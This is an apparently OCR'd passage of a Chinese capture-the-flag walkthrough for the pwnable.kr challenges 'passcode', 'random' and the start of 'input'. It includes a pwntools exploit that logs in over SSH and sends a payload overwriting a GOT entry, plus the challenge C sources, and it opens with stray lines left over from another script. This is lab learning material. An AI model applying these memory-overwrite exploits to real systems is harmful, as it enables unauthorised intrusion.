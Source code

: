   ```
  io.close()
  server.close()
  print(result)

  from pwn import *
  s = ssh(host='pwnable.kr', user='passcode', password='guest', port=2222)
  payload = 'c'*96+'\x00\xa0\x04\x08'+'\n'+'134514147\n'
  sh = s.process('passcode')
  sh.sendline(payload)
  print sh.recvall()
  io.close()
  server.close()
  ``` 

### 06 random
* 系统在调用rand()之前都会自动调用srand(),如果在srand()里给参数seed指定了一个值，那么 rand()就会将seed的值作为产生伪随机数的初始值；而如果用户在rand()前没有调用过srand()，那么系统默认将1作为伪随机数的初始值，如果初始值是此时的1或是其他定值，那么每次rand()产生的随机数序列都是一样的，这也就是所谓的“伪随机数”。
* 题目
  ```c
  #include <stdio.h>
  int main(){
      unsigned int random;
      random = rand();        // random value!

      unsigned int key=0;
      scanf("%d", &key);

      if( (key ^ random) == 0xdeadbeef ){
              printf("Good!\n");
              system("/bin/cat flag");
              return 0;
      }

      printf("Wrong, maybe you should try 2^32 cases.\n");
      return 0;
  }
  ```
* 每次rand的数字为1804289383=3039230856^0xdeadbeef

### 07 input
* 题目
  ```c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  #include <sys/socket.h>
  #include <arpa/inet.h>

  int main(int argc, char* argv[], char* envp[]){
      printf("Welcome to pwnable.kr\n");
      printf("Let's see if you know how to give input to program\n");
      printf("Just give me correct inputs then you will get the flag :)\n");

      // argv
      if(argc != 100) return 0;
      if(strcmp(argv['A'],"\x00")) return 0;
      if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
      printf("Stage 1 clear!\n");

      // stdio
      char buf[4];
      read(0, buf, 4);
      if(memcmp(buf, "\x00\x0a\x00\xff", 4)) return 0;
  ```